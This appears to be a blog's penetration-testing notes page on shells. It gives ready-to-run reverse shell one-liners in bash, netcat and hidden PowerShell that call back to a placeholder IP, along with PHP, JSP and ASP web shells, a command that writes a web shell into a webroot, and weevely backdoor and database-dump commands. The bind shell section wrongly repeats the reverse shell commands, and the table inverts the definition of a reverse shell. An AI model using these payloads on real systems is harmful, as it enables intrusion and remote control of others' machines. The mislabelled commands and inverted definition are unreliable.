 ```yaml
---
title: Notes | Shell
author: Zeropio
date: 2022-04-25
categories: [Notes, System]
tags: [bash, linux]
permalink: /notes/system/shell
---
```


# Shell

The shells are the main objective to compromise an attacked machine.
In [revshells](https://www.revshells.com/) we can find more.

# Types

| **Type** | **Description** |
|----------|-----------------|
| Reverse shell | Connection to a *listener* in the attacked machine |
| Bind shell | Bind to a port in the attacked machine and waits for the connection |
| Web shell | Runs commands via the web |

---

# Reverse shell

## Netcat connection

First we need to start a **netcat** in our machine:

```console
zero@pio$ nc -lvnp 9000
```

| **Flag**   | **Description**    |
|--------------- | --------------- |
| `-l`   | Listen mode   |
| `-v`   | Verbose mode   |
| `-n`   | Disable DNS resolution, speed up   |
| `-p`   | Port number   |

Then we execute the reverse shell command in the objective machine.

## Reverse shell command

Depends on the machine the command may be different. In [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) we can found many, as well as in *revshells*.

Some Linux examples can be seen as:
```bash
bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'
```
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f
```

And Windows:
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("<ip>",<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

---

# Bind Shell

Unlike the reverse shell, we need to make the connection to the bind shell. We can found some scripts in *PayloadsAllTheThings*.

## Bind shell command

As before, there are different commmands for different OS.
For Linux:
```bash
bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'
```
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f
```

For Windows:
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("<ip>",<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## Netcat connection

Then we can start our netcat. We can see that we will connect directly:
```console
zero@pio$ nc <ip> <port>
```

## Upgrading shell

With an Bind shell we are really limited.

Let's use Python to upgrade it:
```console
zero@pio$ python -c 'import pty; pty.spawn("/bin/bash")'
```

Then we press `CTRL + z` to background the shell and use the **stty** command:
```console
www-data@machine$ ^Z 

zero@pio$ stty raw -echo
zero@pio$ fg 

[Enter]
[Enter]
www-data@machine$ 
```
After, we can press `Enter` or use *reset*.

Maybe the shell does not cover the entire terminal. We can import our configuration:
```console
zero@pio$ echo $TERM 
  xterm-256color
zero@pio$ stty size
  67 318
```

Then in our bind shell:
```console
www-data@machine$ export TERM=xterm-256color
www-data@machine$ stty rows 67 columns 318
```

---

# Web shell

A web shell is directly in the webpage, for example with PHP or ASPX.

## Writing

This are some of the scripts to execute a web shell:
```php
<?php system($_REQUEST["cmd"]); ?>
```

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

```asp
<% eval request("cmd") %>
```

## Uploading the shell

Firstly, we need to upload the webshell.
Secondly, we need to figurate which type of server is:
| **Server**   | **Default Webroot**    |
|--------------- | --------------- |
| Apache   | `/var/www/html/`{: .filepath}   |
| Nginx   | `/usr/local/nginx/html/`{: .filepath}   |
| IIS   | `c:\inetpub\wwwroot\`{: .filepath}   |
| XAMPP   | `C:\xampp\htdocs\`{: .filepath}   |

For example, for a Apache in Linux with a PHP:
```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

## Accesing the shell

Access the file through the browser or using cURL. With the option `?cmd=<command>` we can execute it.
For example: `http://<ip>/shell.php?cmd=whoami` in the web, or with curl:
```console
zero@pio$ curl http://<ip>/shell.php?cmd=whoami
  www-data
```

---

## weevely
To generate a shell:
```console
$ weevely generate [password] /home/kali/shell.php
$ weevely http://ip/shell.php [password]
```

We can use **:help** inside the weevely shell to get some functions. We can use **-h** in the weevely function to access more options.
Sometimes we wouldn't be able to execute commands, weevely can help us:
```console
$ :shell_sh -v [option] [command]
```

Some other options are:
- **:file_download [remotepath] [localpath]**: download files
- **:file_upload [localpath] [remotepath]**: upload files
- **:file_read [localpath]**: read a file
- **:sql_console**
- **:sql_dump -host [ip] -lpath [localpath].txt [user] [password]**: dump a db into a file (if the db doesn't have a password we should use **''** instead).
- **:backdoor_reversetcp [lhost] [lport]**: create a reverse shell (we need to add a **;** after each command).
##### If any option doesn't work we can use **-vector [option]** to change the attack.

---

# After a reverse shell...
We can get a interactive shell with the following command:
```console
$ script /dev/null -c bash
```
